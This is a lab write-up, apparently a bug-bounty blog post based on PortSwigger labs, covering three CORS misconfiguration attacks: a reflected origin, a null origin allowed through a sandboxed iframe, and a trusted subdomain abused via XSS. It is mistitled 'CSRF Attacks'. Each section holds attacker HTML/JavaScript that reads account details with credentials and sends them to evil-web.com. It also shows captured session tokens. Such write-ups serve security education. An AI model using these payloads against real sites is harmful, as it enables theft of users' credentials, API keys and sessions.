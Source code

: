 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/170120828-3edcc859-fc45-42c3-9fe7-a8cd8b20f682.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

- Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources outside a given domain.
- It extends and adds flexibility to the same-origin policy (SOP).
- However, it also offers the potential for cross-domain attacks if a website's CORS policy is poorly configured and implemented.

# Table of Contents
1. [CORS vuln with Origin base mirrored](#CORSvulnOriginmirrored)
2. [Origin only allows null origins](#Originallowsnullorigins)
3. [CORS with insecure reliable protocols](#CORSinsecurereliableprotocols)

---

#### 1- CORS vuln with Origin base mirrored <a name="CORSvulnOriginmirrored"></a>
We can see the result of the data in the response. 

![CORSBASIC1](https://user-images.githubusercontent.com/47476901/170120840-b2ebc878-083c-4696-880d-4dd1a7c49f27.png)

And the customized origin is reflected, which tells us that it is vulnerable.
`Origin: http://web-testing.com` ✔

![CORSBASIC2](https://user-images.githubusercontent.com/47476901/170120866-d6794c07-b894-479c-a4ac-05e7fd3c8f68.png)

We create a custom html so that this data is sent to our malicious page to steal this data.

![CORSBASIC-webmaliciosa](https://user-images.githubusercontent.com/47476901/170120906-757459e0-d8c5-46dc-afab-980136ef0bbe.png)


- Malicious web HTML: 
```html
<html>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://web.com/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://evil-web.com/log?key='+this.responseText;
};
</script>
</html>
```

When the user visits our site it will send the data from that endpoint to our site where it can be seen in the logs of our server.

![CORSBASIC-LOGS](https://user-images.githubusercontent.com/47476901/170120986-ebb2f1d4-eb13-4f16-96fc-93a70433d67c.png)

---

#### 2- Origin only allows null origins <a name="Originallowsnullorigins"></a>
When we modify the Origin it is not reflected in the request.
`Origin: http://web-testing.com` ❌

![CORS-NULL-nullisnotreflected](https://user-images.githubusercontent.com/47476901/170121022-62f66786-5ea7-4c02-8714-1c60d2382fcd.png)

We can see that the website only allows Origins that are null.
`Origin: null` ✔

![CORS-NULL-nullisreflected](https://user-images.githubusercontent.com/47476901/170121051-0e387fd5-1f4d-4ca7-b1bc-d88df606e7a1.png)

- An attacker can use several tricks to generate a cross-origin request containing the `NULL` value in the Origin header.
- This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using an `iframe` cross-origin request in isolated form space:
- 
- Malicious HTML web: 
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener; 
        req.open('get','https://web.com/accountDetails',true); 
        req.withCredentials = true;
        req.send();
		function reqListener() {
		location='https://evil-web.com/log?key='+this.responseText; }; 
    </script>
">
</iframe>
```
With the `location` we are indicating that this response that has the sensitive data is sent as parameters to the attacker's page.
This is the request that the victim user makes from behind when visiting our page.

1- Visit the attacker page and execute the javascript script we have created.

![CORS-NULL-1](https://user-images.githubusercontent.com/47476901/170121075-ea6d19f6-6e26-4833-abf3-19c747a51f71.png)

2- And when it reads the location it sends the data

![CORS-NULL-2](https://user-images.githubusercontent.com/47476901/170121090-d15e2f6c-c45e-4e17-888e-f4b58605e167.png)

3- When the user visits our page it will send the data of that endpoint to our page where it can be seen in the logs of our server.
Server logs:

![CORS-NULL-3](https://user-images.githubusercontent.com/47476901/170121110-e824ffa6-1f99-4b62-9471-5a9ff468ccb0.png)


Url Decode: 
We have:
User, email, apikey and the session (The cookie that is linked to the user).

![CORS-NULL-urldecode](https://user-images.githubusercontent.com/47476901/170121138-e73bbef4-d56f-403f-b113-d11413a54beb.png)


**Filtering administrator data**
Now imagine that the administrator visits our page, we get his data and in that data is included the session cookie that we can use to enter your session
Server logs: 

![CORS-NULL-admin1](https://user-images.githubusercontent.com/47476901/170121188-142730ff-0f1b-4638-ae4d-618fc2ee910c.png)

Url Decode: 

![CORS-NULL-admin2](https://user-images.githubusercontent.com/47476901/170121205-6b456e81-74be-4d67-8422-cde3949111f7.png)

We already have the administrator session
`Admin Session: F1BVIVSoQvTaB8i6HJ25gxtJdvJKweuz`

![CORS-NULL-admin3](https://user-images.githubusercontent.com/47476901/170121229-5dc14a73-74f3-4d81-bebd-816a5bf6c253.png)

#### 3- CORS with insecure reliable protocols <a name="CORSinsecurereliableprotocols"></a>

The website only trusts domains that belong to it, i.e. its subdomains.

We do a test with our site in the origin and we get no reflection.
`Origin: http://web-prueba.com` ❌

![CORS-SUBDOMAIN1](https://user-images.githubusercontent.com/47476901/170121254-7e6c7df8-4e4e-4e49-8738-b2d4873d2087.png)


We tried with a subdomain and it is reflected.
`Origin: http://subdomain.web.com` ✔

![CORS-SUBDOMAIN2](https://user-images.githubusercontent.com/47476901/170121281-a1b04963-fea1-4c9a-a434-7257df905382.png)

We found a valid subdomain

![CORS-SUBDOMAIN3](https://user-images.githubusercontent.com/47476901/170121326-6bf2936e-ecee-4043-b83d-64473fe62467.png)

This subdomain is vulnerable to XSS reflected in the productId parameters, this will help us to execute our script since the page only trusts its subdomains.

**XSS in subdomain**

![CORS-SUBDOMAIN-XSS](https://user-images.githubusercontent.com/47476901/170121381-2735c975-9520-407e-a8b7-626497e0f292.png)

We exploit this vulnerability to exploit cross-domain trust to exfiltrate data to our server.

**Our malicious web**
- HTML malicious web: 
```html
<html>
<script>
    document.location="http://subdomain.web.com/?search=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://web.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://evil-web.com/log?key='%2b%this.responseText; };%3c/script>"
</script>
</html>
```

When the victim user visits our page he will execute the XSS of the subdomain containing the script that makes a request to the page vulnerable to cors by domain trust and the response of that request is sent to the logs of our server.

1- The user visits our malicious page which contains the main script

![CORS-SUBDOMAIN-FINAL1](https://user-images.githubusercontent.com/47476901/170121414-3e0c1072-7b3c-41a8-9ebf-53cd154e076b.png)

2- The javascript is executed and sends the user to the subdomain and executes xss 

![CORS-SUBDOMAIN-FINAL2](https://user-images.githubusercontent.com/47476901/170121446-25a24085-5afc-4a5f-80a7-5931856223f5.png)

3- As the script comes from a trusted domain configured by the cors of the final page, it is executed on the page vulnerable to CORS.

![CORS-SUBDOMAIN-FINAL3](https://user-images.githubusercontent.com/47476901/170121465-a3fdcf2b-361e-47e8-89e3-6e40540281e6.png)

4- As it was malicious, the response was sent to the attacker's server with all the sensitive data.
Finally the data is sent to the malicious page as we can see with this intercepted request.

![CORS-SUBDOMAIN-FINAL4](https://user-images.githubusercontent.com/47476901/170121479-4fc4ed61-f871-47ef-b710-f461414e9d7c.png)

5- These data are saved in the logs of our page as an attacker.
In which in this case are sent username, email, apikey and session cookie. 

![CORS-SUBDOMAIN-FINAL5](https://user-images.githubusercontent.com/47476901/170121493-bb8947d1-376c-4577-a46b-6cdd3dd2f74b.png)

6- In the most extreme case as we have explained before, if an administrator visits our page we will have your session cookie.

![CORS-SUBDOMAIN-FINAL6](https://user-images.githubusercontent.com/47476901/170121516-5ed34f0c-f1c5-4a33-96d0-434b95629d6a.png)

7- Using the administrator's session cookie 
`Admin Session: clljARot4Lc4KkFHfIylENGZmZbzYwD7`

![CORS-SUBDOMAIN-FINAL7](https://user-images.githubusercontent.com/47476901/170121537-f506411d-2b99-4407-b9c2-75553ea3666c.png)

### Conclusion
- This always depends on the response to the endpoint that we point.
- In this example if the user's session cookie or email was sent, but this is a particular case because the webs are very different from each other, as the above point says, it all depends on the response of the endpoint. 
- Understand what trust relationships are handled in CORS policies because there may be a CORS vulnerability but it does not have to be offensive. Like everything else, it depends on the context.

Source Labs:
- [Portswigger Labs](https://portswigger.net/web-security)


